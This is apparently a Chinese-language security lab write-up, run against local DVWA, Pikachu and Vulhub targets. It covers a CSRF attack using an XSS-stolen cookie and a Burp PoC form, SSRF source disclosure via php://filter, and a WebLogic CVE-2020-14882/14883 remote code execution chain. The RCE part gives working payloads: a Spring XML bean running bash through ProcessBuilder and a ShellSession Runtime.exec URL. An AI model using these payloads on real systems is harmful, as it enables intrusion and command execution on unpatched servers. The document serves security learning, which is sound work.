# 一、CSRF
## 概念
* CSRF：跨站请求伪造，是一种挟制用户在当前已登录的Web应用程序上执行非本意操作的攻击方法，允许攻击者诱导用户执行他们并不打算执行的操作。
* 攻击条件：   
（1）一个功能操作。
（2）基于 Cookie 的会话处理。
（3）没有不可预测的请求参数。
## 1. DVWA-High 等级
### 1.1 登录`DVWA`，调整安全等级为 `HIGH`。

### 1.2 选择`CSRF`模块，正常功能调试。
   
输入新密码和确认密码后，点击`chage`即可修改密码。
### 1.3 `F12`查看网络请求，判断是否满足上面三个攻击条件。

|条件|是否满足|说明|
|---|---|---|
|一个功能操作|是|一个修改密码的功能|
|基于 Cookie 的会话处理|是|请求中携带cookie|
|没有不可预测的请求参数|否|请求参数中有个`user_token`,经测试每次都会不同|   
### 1.4 查看网站源码
   
每次都会检查一下请求携带的 `user_token` 和服务端的 `session_token` 是否匹配，而 `user_token` 每次请求都不一样，所以不满足上述三个条件中的第三个条件（没有不可预测的请求参数），所以这个难度下直接通过这个点是无法完成`CSRF`攻击的，只能通过其他方式来满足上述攻击条件后，才能完成此功能点的攻击。
### 1.5 攻击思路
已知 `DVWA` 的安全级别和 `cookie` 中的 `security` 参数有关，如果能够修改 `security` 参数的值为 `low`，那么服务端处理的时候就不会校验 `user_token`,这样就可以使第三个条件满足。用这种方法的前提就是要获取到用户的`cookie`，获取到之后，仿冒用户提交修改密码的请求，这个可以利用网站的 `XSS` 漏洞来获取用户的cookie。
### 1.6 利用`XSS`获取用户`cookie`

```text
 PHPSESSID=p3becs777t1lc5nbkd86ieje05; security=low
```
### 1.7 通过自己账号，提交修改密码请求

### 1.8 使用 `Burp` 抓包，修改请求中的cookie，以及删除没用的 `user_token` 参数

### 1.9 成功修改通过 `XSS`抓取用户的密码

## 2. 使用 Burp 生成 CSRF 利用 POC
### 2.1 使用 `Burp` 生成上面请求的 `CSRF` 的 `POC`


### 2.2 运行访问生成的`POC`代码
```html
 <html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
    <body>
        <form action="http://huanxue.com:8081/vulnerabilities/csrf/">
        <input type="hidden" name="password&#95;new" value="123" />
        <input type="hidden" name="password&#95;conf" value="123" />
        <input type="hidden" name="Change" value="Change" />
        <input type="submit" value="Submit request" />
        </form>
        <script>
        history.pushState('', '', '/');
        document.forms[0].submit();
        </script>
    </body>
 </html>
```
   
* 注：跳转太快，没来得及截图。
# 三、SSRF（file_get_content），要求获取 ssrf.php 的源码；
## 概念
* PHP 伪协议：在 PHP 中，伪协议（Pseudo Protocols） 也被称为 流包装器，这些伪协议以 php:// 开头，后面跟着一些参数，用于指定 要执行的操作 或 需要访问的资源。伪协议表明这些协议并不是一个真实的外部协议，例如 http 或 ftp。PHP 伪协议的出现是为了提供一个 统一的、简洁的 接口来处理 不同的数据流。这些伪协议可以被看作是一种 桥梁，它们允许开发者 使用常规的文件操作函数来处理各种不同的数据流。
* SSRF：服务端请求伪造，是一种由攻击者构造形成，由服务端发起请求的一个安全漏洞。一般情况下，SSRF攻击的目标是从外网无法访问的内部系统。正是因为它是由服务端发起的，所以它能够请求到与它相连而与外网隔离的内部系统。  
* file_get_content：是把整个文件读入一个字符串中。   
* php://filter：是一种元封装器， 设计用于数据流打开时的筛选过滤应用。   
|项目|描述|
|---|---|
|resource|在 php://filter 中，resource 参数是必须的。resource 用于指定 需要进行筛选过滤的数据流。|
|read|read 参数指定一个或多个过滤器用于读操作，多个过滤器之间以管道符 `|` 进行分隔。|
|write|write 参数指定一个或多个过滤器用于写操作，多个过滤器之间以管道符 `|` 进行分隔。|   
示例：
```php
 # 省略过滤器列表实现文本的普通读写操作

 # 通过 php://filter 伪协议指定需要写入数据的文件
 file_put_contents('php://filter/resource=file.txt', 'Hello World');
 # 通过 php://filter 伪协议指定需要读取数据的文件
 $content = file_get_contents('php://filter/resource=file.txt');
```
* convert.base64-encode：convert.base64-encode和 convert.base64-decode使用这两个过滤器等同于分别用 base64_encode()和 base64_decode()函数处理所有的流数据。
## 1. 启动靶场，访问 `SSRF(file_get_content)`
  
## 2. 正常功能演示
   
* 问题：点击后页面刷新，无内容回显   
* 解决：地址栏多了个 `vul`，删除后，重新访问即可   

## 2. 使用 `php://filter` 引入 `ssrf.php`
```url
 http://127.0.0.1/vul/ssrf/ssrf_fgc.php?file=php://filter/resource=ssrf.php
```
   
引入了 `ssrf.php` 的内容，并解析执行了 `ssrf.php`。
## 3. 使用 `base64` 编码，使其不被解析执行，获取 `ssrf.php` 文件内容。
```url
 http://127.0.0.1/vul/ssrf/ssrf_fgc.php?file=php://filter/read=convert.base64-encode/resource=ssrf.php
```

## 4. 将返回内容解码
   
成功获取 `ssrf.php`源码。
# 四、远程代码执行漏洞：Weblogic RCE。
## 1. 环境搭建
### 1.1 Vulhub
* Vulhub：https://vulhub.org   

### 1.2 下载安装
* 说明：下载之前，需要 `docker` 和 `docker-compose`。（之前安装过，这里不再安装，详细可以查看文档：https://vulhub.org/#/docs/install-docker/）   
```txt
 docker-compose 操作容器：
 停止：docker-compose stop
 开启：docker-compose start
 移除：docker-compose down
```
下载：
```url
 git clone https://github.com/vulhub/vulhub.git
```
* 问题：可以访问git，但是clone不了！   
* 解决：设置git代理，命令如下，端口为系统代理端口。   
```shell
  # 设置代理
  git config --global http.proxy 127.0.0.1:1087
  # 取消代理
  git config --global --unset http.proxy
```

### 1.3 查看容器配置文件

### 1.4 启动 `Weblogic` 漏洞环境
进入制定漏洞目录下：
   
运行下方命令，启动容器。
```shell
 docker-compose up -d
```

### 1.5 访问
```url
 http://127.0.0.1/console
```

## 2.漏洞实战
### 2.1 概述
* 影响范围：   
```text
 WebLogic 10.3.6.0.0
 WebLogic 12.1.3.0.0
 WebLogic 12.2.1.3.0
 WebLogic 12.2.1.4.0
 WebLogic 14.1.1.0.0
```
* 目的：远程命令执行。   
* 利用思路：首先利用 `Weblogic` 的 `CVE-2020-14882` 越权访问后台，然后再利用 `CVE-2020-14883` 实现远程命令执行。    
### 2.2 越权访问后台页面
```url
 http://127.0.0.1:7001/console/css/%252e%252e%252fconsole.portal
```

### 2.3 远程命令执行
#### 2.3.1 方式一
借助 `com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext` 类实现，此方式具有通杀性。
##### 2.3.1.1 构造恶意xml文件，通过 `dvwa` 文件上传漏洞上传到容器内。
```xml
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
xsi:schemaLocation="http://www.springframework.org/schema/beans
http://www.springframework.org/schema/beans/spring-beans.xsd">
  <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
    <constructor-arg>
      <list>
        <value>bash</value>
        <value>-c</value>
        <value><![CDATA[touch /tmp/info.txt]]></value>
      </list>
    </constructor-arg>
  </bean>
</beans>
```



##### 2.3.1.2 访问下面链接，使其可以访问到刚才构造的恶意 `touch.xml`
```url
 http://127.0.0.1:7001/console/images/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext("http://192.168.17.101:8081/hackable/uploads/touch.xml")
```
* 问题：访问xml文件的路径不能输入`127.0.0.1`，因为这个是在容器内执行访问，那么就相当于容器的本机，然而容器的本机并没有这个文件。   
* 解决：设置宿主机的ip，通过宿主机ip端口转发至文件所在 `dvwa` 容器内，就可以访问到特定资源。

##### 2.3.1.3 进入 `Weblogic` 容器，检验命令是否执行成功

#### 2.3.2 方式二
借助 `com.tangosol.coherence.mvel2.sh.ShellSession` 类实现，此方式仅对 12.2.1 以上版本有用。
##### 2.3.2.1 访问下面链接
```url
 http://127.0.0.1:7001/console/images/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec('touch%20/tmp/info1.txt');")
```

##### 2.3.2.2 进入 `Weblogic` 容器，检验命令是否执行成功
   
### 2.4 总结
从此漏洞可以深刻体会到“没有绝对的安全”这句话的意义，利用后台的越权访问漏洞使得站点的攻击面增大，攻击者在不登录的情况下就可以轻松利用`CVE-2020-14883`的漏洞，实现远程命令执行。就此攻击链来看，越权访问是"门"，远程命令执行是"点"，因为"门"的失效，大大扩大了"点"的面积，使其更容易被发现和利用。   
后续开发过程中要重视：（1）开发的系统或功能是否存在越权的风险 （2）外部传入的参数是否合理以及是否做了安全校验。